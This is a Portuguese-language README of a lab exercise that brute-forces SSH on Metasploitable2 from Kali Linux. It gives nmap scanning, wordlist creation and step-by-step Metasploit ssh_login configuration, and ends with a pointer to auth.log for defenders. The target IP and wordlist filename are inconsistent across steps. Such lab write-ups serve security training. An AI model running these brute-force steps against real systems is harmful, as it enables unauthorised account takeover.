




🛡️ Estudo de Caso: Ataque de Força Bruta em SSH

Este repositório documenta um exercício de pentest (teste de intrusão) focado em um ataque de força bruta contra o serviço SSH.

> **DISCLAIMER: PROPÓSITO EDUCACIONAL**
> Todas as atividades documentadas aqui foram realizadas em um **ambiente de laboratório privado, controlado e isolado** (Kali Linux vs. Metasploitable2). O objetivo deste projeto é estritamente educacional, visando entender as mecânicas de um ataque comum para, assim, aprender a implementar defesas robustas. Estas técnicas **nunca** devem ser usadas em sistemas sem autorização explícita.

---

### 🎯 Objetivo

O objetivo deste laboratório é demonstrar, passo a passo, como um atacante pode usar o Metasploit como ferramenta para obter acesso não autorizado a um serviço SSH mal configurado com senhas fracas ou padrão.

### 🛠️ Ambiente e Ferramentas

* **Máquina Atacante:** Kali Linux (`<192.10.10.3>`)
* **Máquina Alvo:** Metasploitable2 (`<192.10.10.4>`)
* **Ferramentas:**
    * `nmap` (Para reconhecimento de portas)
    * `Metasploit` / `medusa` (Para a execução da força bruta)
    * `nano` (Para criação da wordlist)

---

### 📝 Execução do Ataque (Passo a Passo)

#### Fase 1: Reconhecimento (Nmap)

O primeiro passo foi identificar serviços abertos no alvo. Foi utilizado o Nmap para escanear as portas TCP.

```bash
nmap -sV 162.10.10.4



### Fase 2: Criar uma wordlist

O segundo passo foi criar o arquivo lista_do_alvo.txt, que é a wordlist usada na exploração.

```bash
nano lista_do_alvo.txt



### Fase 3: Seleção do Módulo

Procuramos e usamos o módulo auxiliar (auxiliary) específico para realizar ataques de força bruta contra o serviço SSH.

```bash
msf > use auxiliary/scanner/ssh/ssh_login

### Fase 4: Configuração do Ataque
 
Configuramos as opções do módulo com as informações do nosso  laboratório.

```bash
# Define o IP do nosso alvo (Metasploitable2)
msf auxiliary(scanner/ssh/ssh_login) > set RHOSTS 162.10.10.4

# Define o nome de usuário que queremos atacar 
msf auxiliary(scanner/ssh/ssh_login) > set USERNAME msfadmin

# Define o caminho para a lista de senhas que criamos com o Nano
msf auxiliary(scanner/ssh/ssh_login) > set PASS_FILE /caminho/para/sua/lista_alvo.txt

# (Opcional) Diz ao Metasploit para parar assim que encontrar a senha
msf auxiliary(scanner/ssh/ssh_login) > set STOP_ON_SUCCESS true

### Fase 5: Lançamento do Ataque: 

Com tudo configurado, executamos o módulo.

```bash
msf auxiliary(scanner/ssh/ssh_login) > run



### Fase 6: Análise Pós-Ataque (Verificando os Logs)

Um ataque de força bruta é "barulhento" e deixa muitas evidências. Uma parte crucial do *Blue Team* (defesa) é saber onde procurar por essas evidências.

No Metasploitable2 (e na maioria dos sistemas Linux), todas as tentativas de autenticação (bem-sucedidas ou falhas) são registradas no arquivo `/var/log/auth.log`.

Após o ataque, acessamos a máquina alvo (`192.10.10.4`) e usamos o comando para observar o momento que a sessão entre o atacante e alvo foi estabelecida.

